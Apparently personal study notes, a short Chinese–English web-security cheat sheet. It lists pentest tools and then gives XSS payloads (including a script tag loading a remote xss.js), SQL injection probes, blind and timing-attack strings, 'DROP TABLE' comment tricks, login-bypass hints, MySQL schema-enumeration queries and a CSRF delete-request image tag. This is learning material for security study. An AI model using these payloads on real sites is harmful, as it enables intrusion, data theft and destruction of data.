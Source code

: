 
## 分析工具:
`burpsuite` 抓包 改包

`nmap ncat` 掃port 測port

`whois` and `theharvester` OSINT

`python` 不用多說

`sqlmap` 不用多說

還有瀏覽器的 `F12(Developer tools)` (超級有用!)
### #別當 script kiddy!!


## 常見漏洞

### XSS(Cross Site Scripting)

#### Attacking Vectors
##### 基本
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
### SQL 注入

#### Attacking Vectors
##### 檢查是否有漏洞
Common vectors like

`'` and `ORDER BY 1`

Blind-Injections to check without debug info

`' AND 1=1 ` (true) `' AND 1=2 ` (false)

Timing attack

`BENCHMARK(878787878787, ('hey', 'you'))`

##### 註解掉後面的query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
use `'` and `--` 來閉合引號和註解
##### Common Vectors(MySQL for example)
`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`

##### !No `information_schema` in MySQL < 5!
### CSRF (Cross-Site-Request-Forgery)
#### Attacking Vectors
將siteB的元素注入到siteA:

`<img src = http://www.siteb.com/blog.php?action=delete></img>`

### SSRF (Server-Side-Request-Forgery)
很像csrf，但是用來訪問內網的server



